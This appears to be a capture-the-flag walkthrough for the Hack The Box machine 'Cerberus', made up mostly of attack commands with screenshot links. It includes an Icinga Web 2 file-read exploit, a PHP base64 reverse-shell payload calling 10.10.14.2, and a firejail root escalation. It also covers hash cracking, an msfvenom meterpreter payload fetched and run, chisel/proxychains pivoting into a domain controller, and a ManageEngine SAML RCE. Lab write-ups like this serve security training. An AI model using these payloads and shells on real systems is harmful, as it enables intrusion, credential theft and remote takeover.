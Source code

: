 ![image](https://github.com/regarmulia/HTB/assets/33616880/95578bdf-ec9f-41c4-a795-5eb68f9193d1)```
nmap -sS -sC -sV -T5 -Pn 10.10.11.205
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8c945ce1-850e-47d9-b545-95e5d5be3b31)


```
nano /etc/hosts
http://icinga.cerberus.local:8080/icingaweb2/authentication/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2e53b3ba-9d4e-4e19-94c4-3ad78b2a2c15)

![image](https://github.com/regarmulia/HTB/assets/33616880/330d7aaa-bfc3-4e35-b234-af77244c7bfb)


```
https://github.com/doosec101/CVE-2022-24716
python3 exploit.py -h
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/resources.ini
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f53f8aae-4c25-4a22-8b45-a2deae71adcd)

![image](https://github.com/regarmulia/HTB/assets/33616880/c74c6800-1267-4351-b163-d5069f20811c)


```
OR ./lfi.py
username = "matthew"
password = "IcingaWebPassword2023"
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9e630069-3f72-4fb8-bb30-1e3cba6b0812)


```
http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3587318-f571-491e-85bd-24cafc9f0401)


```
Login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d98c50cf-6cd1-4f19-955e-9eaf5ca00636)


```
openssl genrsa -out private-key.pem 1024
Configuration – Application: Create a New Resource
../../../../../../../../../../../../dev/shm/test.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7af4a30b-6f7d-4c21-a2e3-1a645d0f4ed9)

![image](https://github.com/regarmulia/HTB/assets/33616880/974644ba-82e3-4093-afd2-ad697a2418e6)


```
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /dev/shm/test.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6a42bef0-0852-4ac7-80ef-dd5f55e849f4)


```
echo "sh -i >& /dev/tcp/10.10.14.2/10001 0>&1" | base64 -w 0
../../../../../dev/shm/training/configuration.php
Module path: /dev/shm/
Triger: Click Access Control
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /dev/shm/training/configuration.php

<?php
{
         system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi8xMDAwMSAwPiYxCg==|base64 -d|bash");
}
?>

-----BEGIN PRIVATE KEY-----
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c09ce7c0-7fad-456d-9308-f70ce39597ae)

![image](https://github.com/regarmulia/HTB/assets/33616880/b1a9851d-72eb-4d0b-ad35-ec011a501987)

![image](https://github.com/regarmulia/HTB/assets/33616880/4fca906c-02ec-48c1-b086-916eae7c050f)

![image](https://github.com/regarmulia/HTB/assets/33616880/d5eac0cc-b163-43b3-98f2-6b27eeaf3c6d)


```
python3 -c 'import pty; pty.spawn("/bin/bash")’
find / -perm -4000 2>/dev/null
```
![image](https://github.com/regarmulia/HTB/assets/33616880/688e17cd-f90a-42c1-8c69-a402978553b9)


```
firejail --version
```
![image](https://github.com/regarmulia/HTB/assets/33616880/eab00318-12ec-4adb-af59-9a1bbde88edd)


```
https://www.openwall.com/lists/oss-security/2022/06/08/10/1
./firejoin.py
firejail --join=3089
su -
```
![image](https://github.com/regarmulia/HTB/assets/33616880/89365045-1e44-41f9-bc9c-e1c4d9001491)

![image](https://github.com/regarmulia/HTB/assets/33616880/ef258d83-9c59-49a2-946d-77ab18f30bc8)


```
ifconfig
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7a8b416e-d9a2-4c83-b1f9-be1e52029a69)


```
ps aux | grep root
cd /var/lib/sss/db
strings cache_cerberus.local.ldb | sort -u | head
```
![image](https://github.com/regarmulia/HTB/assets/33616880/38531902-3ecb-4616-9d02-a58cf4d46ffb)

![image](https://github.com/regarmulia/HTB/assets/33616880/179029c1-fa5c-4a47-a931-d3e8ab92333a)


```
john hash -w=/usr/share/wordlists/rockyou.txt
147258369
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9cddadc3-aca2-4127-b19f-3619563d7c67)


```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.10.14.2 lport=10002 -f elf -o shell
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d52758b-5933-43c3-bc7b-1478c3e2e3c0)


```
use exploit/multi/handler
run -j
use auxiliary/server/socks_proxy
run -j
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ec61ef7d-8063-406f-8719-584f42e6477c)

![image](https://github.com/regarmulia/HTB/assets/33616880/e1e3def5-1d53-4c17-a068-22a19e6e0422)


```
nano /etc/proxychains4.conf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fc6d2901-4950-488f-9e9c-9b3bb4a3f630)


```
wget http://10.10.14.2:8000/shell
./shell &
```
![image](https://github.com/regarmulia/HTB/assets/33616880/302a4b0f-1430-41dc-8052-c06660d0754b)


```
use post/multi/manage/autoroute
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0e76bcae-fb3e-4538-9966-4f88134f240d)


```
proxychains evil-winrm -i 172.16.22.1 -u matthew -p 147258369
```
![image](https://github.com/regarmulia/HTB/assets/33616880/098498bd-c8e9-44c9-b8a5-d9c638f91b42)

![image](https://github.com/regarmulia/HTB/assets/33616880/45d9133f-648b-4069-85aa-0307f783bcf2)


```
netstat -ano | select-string LIST
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bfcdbe5d-933c-420f-8aec-bfa6fcc4d612)


```
cat /etc/hosts
```
![image](https://github.com/regarmulia/HTB/assets/33616880/aee0f466-efd5-4e27-b9f8-4e1f978dfe28)


```
git clone https://github.com/jpillora/chisel.git
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8d2867a4-849c-4b95-87e5-274988b0c39c)


```
./chisel_1.9.0_linux_amd64 server --socks5 -p 6666 --reverse
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a07718ca-c3fd-43fd-8d25-ff0d37b44b1e)


```
iwr('http://10.10.14.2:8000/chisel_1.9.0_windows_amd64') -outfile chisel.exe
start-process -filepath .\chisel.exe -args "client 10.10.14.2:6666 R:8888:socks"
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c0ccfeea-234e-4df4-aa22-0a06f8bbeaad)


```
nano /etc/proxychains4.conf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/eb447332-f655-4c71-8aba-ed609456a2d5)


```
New SOCKS proxy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/794c406e-f983-4efb-bba8-209f943e474a)


```
https://dc.cerberus.local:9251
https://dc.cerberus.local/adfs/ls/?SAMLRequest=pVNNj9owFLz3V0S%2Bky8cEizCikJXRWLbCLI99FI5zgtrybGp7bDsv1%2BHjy2tWiq1J0v2vPfmzYwnd4dWeHvQhiuZo8gPkQeSqZrLbY4ey%2FtBhu6m7yaGtiLekVlnn%2BQavndgrDczBrR1dXMlTdeC3oDecwaP61WOnqzdGRIEizkZx0kU9A1WastlMEppVkdhNBqHOIxrNqKjFOMqa1hGU0Yjyposq%2BIGeQs3hUtqj9QuDWvmM9AV6M74QjEqAlo3JhAmQN5ykaNvuKrjCqc4TcIhhCHgJMVxQtNkNB5inEQOZkwHS2kslTZHcRgPB2E2iKMyzEiECR77KY6%2BIq%2FQyiqmxHsuT3p0WhJFDTdE0hYMsYxsZg8rEvshqU4gQz6WZTEoPm%2FKY4M9r0F%2FcugcPVBJt%2FBBOhHAmy02IJqzYl4hOoO8Lxcb4t4GZ4w05CT87dG7M080PflEjgtq717pltrbtf0NrwfNEUpAWm5ffpp9u5xeMoCm%2F%2B%2F4JLimP72ErldvuSiU4OzFmwmhnucaqHWKWt0B%2BuuakR%2F9smYnzQ4YbzjUKHibc8411MeUu1BbOFhvrtod1dz0vsCBMvum8jVsLpwSa2j%2BSbmbMEZY39tdF%2B54VrruYwnM8Sw1dYsobS%2FC%2FY7R9Pz4h%2F1%2BPF%2F%2F7ekr&RelayState=aHR0cHM6Ly9EQzo5MjUxL3NhbWxMb2dpbi9MT0dJTl9BVVRI
```
![image](https://github.com/regarmulia/HTB/assets/33616880/78030abe-deeb-41b7-8034-3e171fb53f57)


```
wget https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966.rb
```


```
cd "C:\program files (x86)\manageengine\ADSelfService Plus\backup“
download OfflineBackup_20230214064809.ezip
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4013981f-0825-4bc6-8fd0-bff4eee746c2)


```
7z x OfflineBackup_20230214064809.ezip
grep -i issuer_url *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b8aaa3ce-a802-41da-abaf-b9ba871c8ddc)

![image](https://github.com/regarmulia/HTB/assets/33616880/c9023ba0-590d-4291-9e3a-b1ed9672e5dc)


